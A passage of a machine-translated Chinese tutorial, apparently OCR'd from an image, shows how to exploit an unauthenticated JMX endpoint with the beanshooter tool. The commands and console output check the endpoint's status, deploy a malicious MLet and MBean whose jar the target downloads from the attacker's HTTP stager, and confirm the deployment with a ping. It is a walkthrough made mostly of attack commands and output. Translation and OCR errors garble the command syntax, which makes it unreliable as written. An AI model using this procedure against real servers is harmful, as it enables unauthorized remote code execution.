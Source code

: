 为了验证未授权的访问，您可以使用带有*状态*动作的 *beanshooter* 。在未受保护的 *JMX 端点*上，输出应该如下所示:

**[qtc @ kali ~]$ bean shooter–SSL 172 . 17 . 0 . 2 9010 状态
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]获取 MLet 状态…完成！
[+] MLet 没有在 JMX 服务器上注册。
[+]获取恶意 Bean 的状态…完成！
[+]恶意 Bean 没有在 JMX 服务器上注册。**

status 命令显示 *MLet* 和恶意 *MBean* 都没有在 *JMX* 端点上注册。现在，您可以通过使用 *deployMLet* 和 *deployMBean* 操作逐个部署它们，或者您可以简单地使用 *deployAll* 一步部署两者。然而，为了部署恶意的 *MBean* ，远程服务器需要建立到您的监听器的 *HTTP* 连接。因此，您可能需要一个防火墙白名单，并且您必须使用 *beanshooter* 的相应的`**--stager-host**`和`**--stager-port**`选项来指定在哪里可以找到您的监听器。最后，确保您想要部署的 *MBean* 可以在您的配置文件中指定的路径中找到(默认为 **: `/opt/beanshooter/tonka-bean/target/`** )。如果您使用自定义的 *MBean* ，您还应该采用 *beanClass* 和 *objectName* 值。

**【qtc @ kali ~】$ bean shooter–SSL–stager-host 172 . 17 . 0 . 1–stager-port 8080 172 . 17 . 0 . 2 9010 deploy all
[+]连接到 JMX 服务器…
[+] RMI 对象尝试连接到不同的远程主机:iinsecure.dev
[+]将连接重定向回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]为远程部署创建 MBean ' MLet'…完成！
[+]
[+]恶意 Bean 似乎没有在服务器上注册
[+]开始注册过程
[+]在 172.17.0.1:8080 上创建 HTTP 服务器
[+]为端点/mlet 创建 MLetHandler 完成！
[+]为端点/tonka-bean.jar 创建 JarHandler 完成！
[+]启动 HTTP 服务器…完成！
[+]
[+]收到/mlet
[+]发送恶意 mlet 的请求:
[+]
[+]Class:de . qtc . TonkaBean . TonkaBean
[+]Archive:tonka-bean . jar
[+]Object:mlettokabean:name = TonkaBean，id = 1
[+]code base:http://172 . 17 . 0 . 1:8080
[+]
[+]恶意 Bean 注册成功**

现在可以使用*状态*或 *ping* 命令来验证恶意的 *MBean* 是否被成功部署:

**[qtc @ kali ~]$ bean shooter–SSL 172 . 17 . 0 . 2 9010 状态
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]获取 MLet 状态…完成！
[+] MLet 在 JMX 服务器上注册。
[+]获取恶意 Bean 的状态…完成！
[+]恶意 Bean 在 JMX 服务器上注册。
[qtc @ kali ~]$ bean shooter–SSL 172 . 17 . 0 . 2 9010 ping
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]发送 ping 到服务器…完成！
[+]服务器答案是:Pong！**
